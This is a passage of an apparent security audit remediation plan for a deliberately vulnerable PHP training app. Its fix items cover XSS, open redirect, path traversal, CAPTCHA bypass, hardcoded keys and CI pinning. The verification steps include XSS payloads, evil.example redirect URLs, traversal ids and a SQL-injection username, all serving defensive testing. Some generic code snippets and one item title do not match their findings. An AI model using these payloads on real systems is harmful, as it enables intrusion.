**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/api/src/Token.php:10`

**How:**

1. Read a random 128-bit or larger key from environment or secret storage instead of a constant.
2. Replace the static 'secret' claim with a signed subject and expiry, for example a JWT with a verified HMAC key.

_Generic CWE-321 pattern, not code from this repository:_

```typescript
// Load the RSA private key from an environment variable / KMS — never
// the source tree. Rotate the prior key and revoke outstanding tokens.
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not set')
const token = jwt.sign(claims, privateKey, { algorithm: 'RS256' })
```

**Verification:** Forge a token using the old 'Paintbrush' key and confirm GET /v2/order/ returns 401.

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

<a id="m-046"></a>
#### M-046 — Generate session IDs with a CSPRNG

**Addresses:**

- 🟡 [F-040](#f-040) — Predictable session identifier generation in weak_id module

**Prevents CWEs:**

- [CWE-341](https://cwe.mitre.org/data/definitions/341.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/weak_id/source/low.php:10`

**How:**

1. Replace counter, `time()` and `md5(counter)` cookie values with `bin2hex(random_bytes(32))` as in `impossible.php`.
2. Set Secure, HttpOnly and `SameSite` attributes on the `dvwaSession` cookie at all levels.

**Verification:** Issue 1000 POST requests and confirm the `dvwaSession` values show no sequential or time-derived pattern and carry HttpOnly.

**Reference:** [CWE-341](https://cwe.mitre.org/data/definitions/341.html)

---

<a id="m-047"></a>
#### M-047 — Remove the hardcoded CAPTCHA bypass branch

**Addresses:**

- 🟡 [F-041](#f-041) — Leftover development bypass value skips CAPTCHA

**Prevents CWEs:**

- [CWE-489](https://cwe.mitre.org/data/definitions/489.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/captcha/source/high.php:20`

**How:**

1. Delete the hidd3n_valu3/User-Agent condition so only `recaptcha_check_answer` decides.
2. Remove the DEV NOTE comment from `captcha/index.php`.

**Verification:** POST with `g-recaptcha-response=hidd3n_valu3` and User-Agent `reCAPTCHA` and confirm the CAPTCHA is reported incorrect.

**Reference:** [CWE-489](https://cwe.mitre.org/data/definitions/489.html)

---

<a id="m-048"></a>
#### M-048 — Match redirect targets against an exact allowlist

**Addresses:**

- 🟡 [F-042](#f-042) — Open redirect with substring-only target check

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/open_redirect/source/high.php:5`

**How:**

1. Compare the target with exact allowed values, or map numeric IDs to fixed paths.
2. Never pass raw user input to `header('Location: ...')`.

**Verification:** Requesting `high.php?redirect`=`https://evil.example/?a=info.php` is rejected.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-049"></a>
#### M-049 — Replace URL redirect with ID allowlist

**Addresses:**

- 🟡 [F-043](#f-043) — Unvalidated open redirect from redirect parameter

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/open_redirect/source/low.php:4`

**How:**

1. Accept only a numeric target ID and map it to fixed internal paths, as `impossible.php` does.
2. Reject any value that is not on the allowlist with a 400 response.

**Verification:** curl -I `'low.php?redirect=https://evil.example'` must not return a Location header that points to `evil.example`.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-050"></a>
#### M-050 — Use an allowlist of internal redirect targets

**Addresses:**

- 🟡 [F-044](#f-044) — Open redirect filter bypass

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/open_redirect/source/medium.php:11`

**How:**

1. Replace the scheme blocklist with a fixed allowlist of internal targets.
2. If paths must stay free-form, require a single leading '/' followed by a non-'/' and non-'\' character.

**Verification:** Requesting `medium.php?redirect=//evil.example` returns an error, not a Location header.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-051"></a>
#### M-051 — Enforce authorization on the server

**Addresses:**

- 🟡 [F-045](#f-045) — CAPTCHA completion trusted from client-supplied form field

**Prevents CWEs:**

- [CWE-602](https://cwe.mitre.org/data/definitions/602.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/captcha/source/medium.php:55`

**How:**

1. Set `$_SESSION['passed_captcha']` after successful verification in step 1 and check and clear it in step 2.
2. Ignore any client-sent `passed_captcha` value.

**Verification:** POST `step=2` with `passed_captcha=true` without solving CAPTCHA and confirm rejection.

**Reference:** [CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html)

---

<a id="m-052"></a>
#### M-052 — Use authenticated encryption and uniform error responses

**Addresses:**

- 🟡 [F-046](#f-046) — CBC padding oracle enables token decryption

**Prevents CWEs:**

- [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/token_library_high.php:26`

**How:**

1. Switch to AES-GCM or encrypt-then-MAC with a random per-token IV, as `token_library_impossible.php` does.
2. Return a single generic error for all token failures and remove exception messages from responses.

**Verification:** Submit a token with a flipped IV byte and one with bad padding and confirm identical responses and rejection.

**Reference:** [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

---

<a id="m-053"></a>
#### M-053 — Move credentials to a hashed credential store

**Addresses:**

- 🟡 [F-047](#f-047) — Hardcoded OAuth client secret and user password

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/api/src/LoginController.php:86`

**How:**

1. Load the client secret and user credentials from configuration or a database, storing hashes with `password_hash()`.
2. Compare them with `password_verify()``/hash_equals`(), and add attempt rate limiting.

_Generic CWE-798 pattern, not code from this repository:_

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Search the source for the literal secret and password strings and confirm they are absent, then confirm login still works with the configured credentials.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-054"></a>
#### M-054 — Verify CAPTCHA in the same request that changes the password

**Addresses:**

- 🟡 [F-048](#f-048) — CAPTCHA skipped by posting step 2 directly

**Prevents CWEs:**

- [CWE-841](https://cwe.mitre.org/data/definitions/841.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/captcha/source/low.php:45`

**How:**

1. Perform CAPTCHA verification and the password update in a single request.
2. Alternatively store CAPTCHA success in the server session and require it in step 2.

**Verification:** POST `step=2`&`password_new=x`&`password_conf=x`&Change=Change and confirm the password is not changed.

**Reference:** [CWE-841](https://cwe.mitre.org/data/definitions/841.html)

---

<a id="m-055"></a>
#### M-055 — Require a user-chosen password and hash it adaptively

**Addresses:**

- 🟡 [F-049](#f-049) — API user creation sets a fixed default password

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/src/UserController.php:167`

**How:**

1. Accept a password in the creation request, validate it against a strength policy, and reject requests that lack one.
2. Store `password_hash($input['password'], PASSWORD_ARGON2ID)` instead of `hash('sha256', 'password')`.

_Generic CWE-916 pattern, not code from this repository:_

```typescript
// Replace md5/sha1 password hashes with bcrypt or argon2.
import bcrypt from 'bcrypt'
const hash = await bcrypt.hash(plaintext, 12)
const ok = await bcrypt.compare(plaintext, storedHash)
```

**Verification:** Create a user through the API. The response or storage must not contain `hash('sha256','password')`, and a request without a password must return 422.

---

<a id="m-056"></a>
#### M-056 — Replace the password grant with authorization code and PKCE

**Addresses:**

- 🟡 [F-050](#f-050) — API token endpoint supports the deprecated OAuth

**Prevents CWEs:**

- [CWE-1390](https://cwe.mitre.org/data/definitions/1390.html)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `vulnerabilities/api/src/LoginController.php:90`

**How:**

1. Remove the `grant_type=password` branch from LoginController::login.
2. Implement the authorization code flow with PKCE for user login, and keep client credentials out of source.

**Verification:** POST `grant_type=password` to the login endpoint. It must return `unsupported_grant_type`.

---

<a id="m-057"></a>
#### M-057 — Pin all GitHub Actions to full commit SHAs

**Addresses:**

- 🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA

**Weaknesses addressed:** [W-013](#w-013)

**Prevents CWEs:**

- [CWE-829](https://cwe.mitre.org/data/definitions/829.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/docker-image.yml:16`

**How:**

1. Replace every `uses: owner/action@tag` reference with `uses: owner/action@<40-char SHA> # tag` in all workflows, including `.github/workflows/docker-image.yml`, `.github/workflows/codeql-analysis.yml` and `.github/workflows/shiftleft-analysis.yml`.
2. Enable Dependabot or Renovate for the github-actions ecosystem so the SHA pins stay current.
3. Consider removing the archived ShiftLeft scan-action.

**Verification:** Run `grep -rnE 'uses: [^@]+@[^ ]+' .github/workflows | grep -vE '@[0-9a-f]{40}'` and confirm that it prints nothing. That shows every action reference in `docker-image.yml`, `codeql-analysis.yml` and `shiftleft-analysis.yml` is pinned to a full commit SHA.

**Reference:** [GitHub Docs: Security Hardening For Github Actions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions)

---

<a id="m-058"></a>
#### M-058 — Pin base images by sha256 digest

**Addresses:**

- 🟡 [F-052](#f-052) — Container base images use floating tags without digest pinning

**Weaknesses addressed:** [W-013](#w-013)

**Prevents CWEs:**

- [CWE-829](https://cwe.mitre.org/data/definitions/829.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:**

1. Pin the base image as FROM docker.io/library/php:8-apache@sha256:`<digest>`.
2. Pin the composer stage as COPY `--from=composer:<version>@sha256:<digest>`.
3. Let Renovate or Dependabot (docker ecosystem) update the digests through reviewed pull requests.
4. Optionally add image signing or provenance attestations to the build-push step.

**Verification:** Run grep -nE '^FROM|`--from='` `Dockerfile` and confirm every image reference contains @sha256:.

**Reference:** [CWE-829: Inclusion of Functionality from Untrusted Control Sphere](https://cwe.mitre.org/data/definitions/829.html)

---

<a id="m-059"></a>
#### M-059 — JSON-encode server values embedded

**Addresses:**

- 🟡 [F-053](#f-053) — Request URI reflected unescaped into inline JavaScript

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/source/low.php:47`

**How:**

1. Compute the API base path server-side from a fixed configuration value rather than from `REQUEST_URI`.
2. If a request value must be embedded, emit it with `json_encode(..., JSON_HEX_TAG|JSON_HEX_APOS|JSON_HEX_QUOT)`.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Request `/vulnerabilities/api/?x=`';`alert(1)`;// and confirm the generated script contains an escaped value.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-060"></a>
#### M-060 — Encode output instead of bypassing the framework sanitizer (F-054)

**Addresses:**

- 🟡 [F-054](#f-054) — Stored XSS in authbypass user table

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/authbypass/authbypass.js:45`

**How:**

1. In `authbypass.js`, create input elements with `document.createElement` and set their .value and .id properties instead of concatenating HTML.
2. Validate and encode name fields on the server, applying htmlspecialchars at all levels in `get_user_data.php` when values are stored or returned.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Store `first_name` as '">``' and as '"><b>x</b>', then load the authbypass page as admin. Confirm no script runs and each value appears as a literal string inside the input field.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-061"></a>
#### M-061 — HTML-encode log fields when rendering the access log

**Addresses:**

- 🟡 [F-055](#f-055) — Stored XSS of logged X-Forwarded-For in access log table

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/bac/index.php:71`

**How:**

1. Wrap every log column rendered in `index.php` lines 68-72 with `htmlspecialchars(..., ENT_QUOTES, 'UTF-8')`.
2. Validate the stored IP with `filter_var(FILTER_VALIDATE_IP)` before logging.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Send X-Forwarded-For: `<svg onload=alert(1)>` and confirm the log table shows the escaped text and no script executes.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-062"></a>
#### M-062 — HTML-encode the username before echoing it

**Addresses:**

- 🟡 [F-056](#f-056) — Reflected XSS of username in login welcome message

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/brute/source/low.php:21`

**How:**

1. Encode \$user with `htmlspecialchars(ENT_QUOTES, 'UTF-8')` in all brute levels.
2. Fix the SQL injection so payload-bearing usernames cannot authenticate.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Request the login with username admin'#`<script>``alert(1)``</script>` and confirm the output is escaped.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-063"></a>
#### M-063 — HTML-encode the include parameter

**Addresses:**

- 🟡 [F-057](#f-057) — Unencoded HTML injection of include parameter at high CSP level

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/csp/source/high.php:10`

**How:**

1. Encode `$_POST['include']` with htmlspecialchars, or stop reflecting it.
2. Make the JSONP endpoint use a fixed callback so it can't act as a same-origin script gadget.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** POST include=<b>x</b> and confirm it renders escaped.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-064"></a>
#### M-064 — Remove user-controlled script src and tighten CSP

**Addresses:**

- 🟡 [F-058](#f-058) — Reflected script injection

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/csp/source/low.php:15`

**How:**

1. Do not take script URLs from request input; if you must, match them against a fixed allowlist of exact URLs.
2. Restrict the CSP script-src to 'self', or to nonce/hash sources, and drop the public CDNs.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** POST include=`https://unpkg.com/@digininja/csp_bypass@1.0.0/index.js` and confirm no script executes.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-065"></a>
#### M-065 — Encode output and use per-request CSP nonces

**Addresses:**

- 🟡 [F-059](#f-059) — Reflected XSS with static CSP nonce and unsafe-inline

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/csp/source/medium.php:16`

**How:**

1. HTML-encode include with htmlspecialchars before output.
2. Generate a random nonce for each response and remove 'unsafe-inline'.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** POST include=`<script>``alert(1)``</script>` and confirm the payload is rendered as text.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-066"></a>
#### M-066 — HTML-encode the session ID before output

**Addresses:**

- 🟡 [F-060](#f-060) — Cross-site scripting

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/sqli/session-input.php:14`

**How:**

1. Wrap `$_SESSION['id']` in `htmlspecialchars(..., ENT_QUOTES)` when building the page body.
2. Add a CSRF token to the session-input form.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** POSTing id=`<script>``alert(1)``</script>` renders as literal text.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-067"></a>
#### M-067 — Encode or allowlist id before HTML output

**Addresses:**

- 🟡 [F-061](#f-061) — Reflected XSS

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/view_source.php:85`

**How:**

1. Allowlist id against known module names.
2. Apply htmlspecialchars to \$id and \$security when building the HTML and the onclick attribute.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** id=`<script>``alert(1)``</script>` renders as escaped text or returns Not found.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-068"></a>
#### M-068 — Use trusted client IPs for rate limiting

**Addresses:**

- 🟡 [F-062](#f-062) — Security decisions driven by client-controlled cookie

**Prevents CWEs:**

- [CWE-807](https://cwe.mitre.org/data/definitions/807.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `dvwa/includes/dvwaPage.inc.php:205`

**How:**

1. Keep the security level in \$_SESSION, set only by the CSRF-checked POST in `security.php`.
2. Ignore the security cookie when making server-side security decisions.

**Verification:** Send `Cookie`: `security=low` on an impossible-level session and confirm the behaviour stays at impossible.

---

<a id="m-069"></a>
#### M-069 — Allow-list help ids and check resolved path containment

**Addresses:**

- 🟡 [F-063](#f-063) — Path traversal in help viewer id and locale

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-22](https://cwe.mitre.org/data/definitions/22.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/view_help.php:20`

**How:**

1. Restrict id to known module directory names and locale to supported codes.
2. Resolve the path with realpath and verify it starts with the vulnerabilities directory before reading.

**Verification:** A request with `id=`../..`/dvwa` returns Not Found and reads no file outside vulnerabilities/.

---

<a id="m-070"></a>
#### M-070 — Move cryptographic keys to a managed secret store (F-064)

**Addresses:**

- 🟡 [F-064](#f-064) — Hardcoded and undersized AES-256-GCM token key

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-321](https://cwe.mitre.org/data/definitions/321.html) - Use of Hard-coded Cryptographic Key

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/cryptography/source/token_library_impossible.php:3`

**How:**

1. Generate a 32-byte random key and load it from the environment or a secret manager.
2. Use separate keys for each security level and rotate the exposed key.

_Generic CWE-321 pattern, not code from this repository:_

```typescript
// Load the RSA private key from an environment variable / KMS — never
// the source tree. Rotate the prior key and revoke outstanding tokens.
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not set')
const token = jwt.sign(claims, privateKey, { algorithm: 'RS256' })
```

**Verification:** Confirm the KEY constant is gone and that tokens minted with the old key are rejected.

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

<a id="m-071"></a>
#### M-071 — Use authenticated encryption with managed keys

**Addresses:**

- 🟡 [F-065](#f-065) — Repeating-key XOR cipher with hardcoded key

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-327](https://cwe.mitre.org/data/definitions/327.html) - Use of a Broken or Risky Cryptographic Algorithm

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/low.php:16`

**How:**

1. Replace `xor_this` with `sodium_crypto_secretbox` or AES-256-GCM using a random nonce.
2. Load the key from a secret store instead of source.

_Generic CWE-327 pattern, not code from this repository:_

```typescript
// jsonwebtoken@9+: pin algorithm whitelist; reject `alg:none`.
jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Encode the same message twice and confirm the ciphertexts differ and do not reveal the key.

**Reference:** [CWE-327: Use of a Broken or Risky Cryptographic Algorithm](https://cwe.mitre.org/data/definitions/327.html)

---

<a id="m-072"></a>
#### M-072 — Accept login credentials only in POST bodies

**Addresses:**

- 🟡 [F-067](#f-067) — Login forms send passwords in GET query strings

**Weaknesses addressed:** [W-010](#w-010)

**Prevents CWEs:**

- [CWE-598](https://cwe.mitre.org/data/definitions/598.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/brute/source/low.php:8`

**How:**

1. Change the login form to `method=POST` and read the credentials from \$_POST only.
2. Reject login attempts that carry a password parameter in the query string, and scrub existing access logs.

**Verification:** Submit a login and check the access log. No password parameter may appear in the logged request line.

---

<a id="m-073"></a>
#### M-073 — Stop writing config backups into web root

**Addresses:**

- 🟡 [F-068](#f-068) — Configuration file copied to backup alongside web content

**Prevents CWEs:**

- [CWE-530](https://cwe.mitre.org/data/definitions/530.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `dvwa/includes/DBMS/MySQL.php:138`

**How:**

1. Remove the `copy()` at `MySQL.php:138`.
2. Deny HTTP access to the config/ directory.

**Verification:** After setup, run: curl `http://127.0.0.1:4280/config/config.inc.php.bak`. Expect a 404 or 403.

---

<a id="m-074"></a>
#### M-074 — Declare least-privilege permissions blocks

**Addresses:**

- 🟡 [F-070](#f-070) — Workflows omit explicit permissions and inherit default

**Prevents CWEs:**

- [CWE-272](https://cwe.mitre.org/data/definitions/272.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/docker-image.yml:10`

**How:**

1. Add a top-level `permissions: contents: read` to every workflow.
2. In `docker-image.yml` grant only `packages: write` on the build job.
3. In `codeql-analysis.yml` and `shiftleft-analysis.yml` grant `security-events: write` only on the analysis jobs.
4. Set the repository default workflow permissions to read-only.

**Verification:** Run `for f in .github/workflows/*.yml; do grep -q '^permissions:' "$f" || echo MISSING $f; done` and confirm no output.

**Reference:** [GitHub Docs: Automatic Token Authentication](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#modifying-the-permissions-for-the-github_token)

---

<a id="m-075"></a>
#### M-075 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🟡 [F-072](#f-072) — Eval of file contents at user-controlled help

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-95](https://cwe.mitre.org/data/definitions/95.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/view_help.php:20`

**How:**

1. Accept id only from an allowlist of known module names, and locale only from a list of supported locale codes.
2. Replace `eval(file_get_contents(...))` with an include of the resolved, allowlisted path.

**Verification:** Request `view_help.php`?`id=`../x&`security=low`&`locale=en` and `view_help.php`?`id=`../../x&`security=low`&`locale=en`. Confirm each returns Not Found and evaluates nothing.

**Reference:** [CWE-95](https://cwe.mitre.org/data/definitions/95.html)

---

<a id="m-076"></a>
#### M-076 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟡 [F-073](#f-073) — Profile authorization trusts client-controlled user_id cookie

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/bac/source/low.php:33`

**How:**

1. Compare \$id with \$current_user_id derived from `dvwaCurrentUser()` rather than a cookie.
2. Remove reliance on the `user_role` and `user_id` cookies.

_Generic CWE-639 pattern, not code from this repository:_

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Log in as user 2, set cookie `user_id=1`, request `user_id=1` and confirm access is denied.

**Reference:** [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)

---

<a id="m-077"></a>
#### M-077 — Replace static token check with per-user ownership check

**Addresses:**

- 🟡 [F-074](#f-074) — Profile access gated by a fixed hardcoded query-string token

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/bac/source/medium.php:26`

**How:**

1. Remove the static query-string token comparison.
2. Before returning profile data, authorize the request by comparing the requested `user_id` with the authenticated user's ID from the server session, or by checking for an admin role.

_Generic CWE-798 pattern, not code from this repository:_

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Log in as a normal non-admin user and request ?`action=1` with another user's `user_id` (for example `user_id=1`) and `token=user_token`. Confirm that access is denied.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-078"></a>
#### M-078 — Enforce admin authorization on every security level

**Addresses:**

- 🟡 [F-075](#f-075) — Admin check on user update enforced only

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/authbypass/change_user_details.php:11`

**How:**

1. Require `dvwaCurrentUser()` == 'admin' unconditionally in `change_user_details.php` and `get_user_data.php`.
2. Return HTTP 403 on failure.

_Generic CWE-862 pattern, not code from this repository:_

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** As gordonb at the high level, POST to `change_user_details.php` and confirm a 403 'Access denied' response.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-079"></a>
#### M-079 — Allowlist client-controlled fields

**Addresses:**

- 🟡 [F-076](#f-076) — Mass assignment of privileged user level

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/src/UserController.php:225`

**How:**

1. In `updateUser`, only accept the 'name' field and ignore or reject 'level'.
2. Require an authenticated admin token before any user create, update or delete operation.

_Generic CWE-915 pattern, not code from this repository:_

```typescript
// Whitelist mutable fields server-side; never trust the body.
const ALLOWED = ['email', 'username'] as const
const patch = Object.fromEntries(
  Object.entries(req.body).filter(([k]) => ALLOWED.includes(k as any))
)
await user.update(patch)
```

**Verification:** Send PUT /v2/user/2 with `{"name":"a","level":0}` and confirm the response is 401, or that level stays 1.

